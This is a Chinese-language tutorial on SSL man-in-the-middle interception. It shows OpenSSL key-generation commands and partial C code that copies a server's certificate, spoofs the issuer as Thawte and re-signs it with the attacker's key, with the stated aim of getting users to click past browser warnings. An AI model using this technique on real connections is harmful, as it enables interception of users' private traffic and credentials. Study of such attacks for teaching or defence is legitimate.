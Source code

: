 从中我们可以看出，一个证书拥有如下的结构：

  ![https-ca-1](../image/https-ca-1.jpeg)

通过伪造CA证书，实现SSL中间人攻击

浏览器会查看证书中的发行者，并在浏览器中查找该证书发行者的公钥，如果找到就用该公钥验证该证书，没有找到则报警。

我们伪造的证书没有办法避免浏览器报警，但可以将发行者一项伪造的极像一个合法的CA，并使用自己的私钥进行签名，而证书的其他部分则照搬原始的证书，这样等浏览器告警，用户自己查看证书后，用户选择继续浏览的可能性也更大。因此我们采用动态生成证书的方式，而不是预先生成证书的方式。

为了伪造证书，首先要先生成密钥。密钥可以是程序运行过程中动态生成的，但为了避免浏览器连续告警，用户每次浏览同一站点时，我们伪造的证书必须相同，所以密钥最好每次保持一致。因此，我们采用预先生成密钥并保存成文件的方式，当程序启动时再加载。

Openssl库中已经内置了生成密钥的工具，我们可以使用一下命令生成密钥：

```
  openssl genrsa -out private.key 1024
  openssl rsa -in private.key -pubout -out public.key
```

这两条命令会在当前目录下生成两个文件，private.key和public.key，分别存储了1024位的RSA私钥和对应的公钥。

有了相应的密钥后，我们便在程序中加载它们。加载密钥的代码被封装在create_key函数中。

```
  EVP_PKEY* create_key() {
  ……
  // 打开文件并加载私钥
  fp = fopen("private.key", "r");
  PEM_read_RSAPrivateKey(fp, &rsa, NULL, NULL);
  ……
  // 打开文件并加载公钥
  fp = fopen("public.key", "r");
  PEM_read_RSAPublicKey(fp, &rsa, NULL, NULL);
  ……
  }
```

之后，我们便可以伪造证书了，伪造证书的代码封装在create_fake_certificate函数中。

```
  X509* create_fake_certificate(SSL* ssl_to_server, EVP_PKEY *key) {
  ……
  // 从服务器获取证书并复制一个副本
  X509 *server_x509 = SSL_get_peer_certificate(ssl_to_server);
  X509 *fake_x509 = X509_dup(server_x509);
  ……
  // 证书修改的代码详见代码，这里展示的只是随意填写的几个字段，读者可以修改这部分代码使得伪造的证书更加逼真
  X509_NAME_add_entry_by_txt(issuer, "CN", MBSTRING_ASC, "Thawte SGC CA", -1, -1, 0);
  X509_NAME_add_entry_by_txt(issuer, "O", MBSTRING_ASC, "Thawte Consulting (Pty) Ltd.", -1, -1, 0);
  X509_NAME_add_entry_by_txt(issuer, "OU", MBSTRING_ASC, "Thawte SGC CA", -1, -1, 0);
  X509_set_issuer_name(fake_x509, issuer);
  ……
  // 重新设置副本的密钥为我们自己的密钥，并使用该密钥签名
  X509_set_pubkey(fake_x509, key);
  X509_sign(fake_x509, key, EVP_sha1());
  ……
  }
```
